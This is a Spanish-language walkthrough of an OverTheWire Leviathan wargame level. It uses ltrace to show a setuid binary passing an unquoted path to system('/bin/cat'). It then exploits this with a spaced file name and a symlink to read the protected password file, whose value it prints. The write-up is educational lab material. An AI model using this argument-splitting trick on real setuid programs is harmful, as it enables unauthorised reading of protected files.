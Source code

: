 Notamos que hay un archivo ejecutable en el directorio de usuario que imprime un archivo,
pero si le pedimos que lea el archivo con la contraseña nos indica que no
tenemos permisos.

```bash
$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```

Lo ejecutamos con `ltrace` para ver que llamadas a bibliotecas realiza

```bash
$ ltrace ./printfile /etc/leviathan_pass/leviathan3
__libc_start_main(0x80491e6, 2, 0xffffd4c4, 0 <unfinished ...>
access("/etc/leviathan_pass/leviathan3", 4)                = -1
```

Vemos que primero trata de acceder al archivo, pero como no tiene permisos no
continua el programa

Probamos con un archivo que si podamos ver, para esto creamos una carpeta
temporal y movemos el ejecutable allí

```bash
$ ltrace ./printfile file1.txt
__libc_start_main(0x80491e6, 2, 0xffffd4d4, 0 <unfinished ...>
access("file1.txt", 4)                                     = 0
snprintf("/bin/cat file1.txt", 511, "/bin/cat %s", "file1.txt") = 18
geteuid()                                                  = 12002
geteuid()                                                  = 12002
setreuid(12002, 12002)                                     = 0
system("/bin/cat file1.txt"File 1
...
```

Vemos que primero trata de acceder al archivo, si puede hacerlo entonces
construye el comando, y obtiene el id de usuario efectivo, y establece el id de
usuario real.

Probamos como se comporta el programa con un archivo con espacios.

```bash
$ ltrace ./printfile "file 1 and 2.txt"
__libc_start_main(0x80491e6, 2, 0xffffd4d4, 0 <unfinished ...>
access("file 1 and 2.txt", 4)                            = 0
snprintf("/bin/cat file 1 and 2.txt", 511, "/bin/cat %s", "file 1 and 2.txt") = 25
...
system("/bin/cat file 1 and 2.txt"/bin/cat: file: No such file or directory
...
```

Vemos que pregunta por el acceso del archivo completo, pero al momento de
realizar el cat se olvida de las comillas, por lo que este solo funcionaría con
el primer archivo.

Podemos probar darle un path con espacio, cuya resolución completa este permitida, pero que contenga como primer argumento un path a un link simbolico a la contraseña.

```bash
$ touch "leviathan3 allowed"
$ ln -s /etc/leviathan_pass/leviathan3 leviathan3
```

Luego, podemos construir una dirección que apunte a "leviathan3 allowed", pero
donde `cat` reciba "leviathan" como primer argumento.

```bash
$ ~/printfile "leviathan3 allowed"
Q0G8j4sakn
...
```

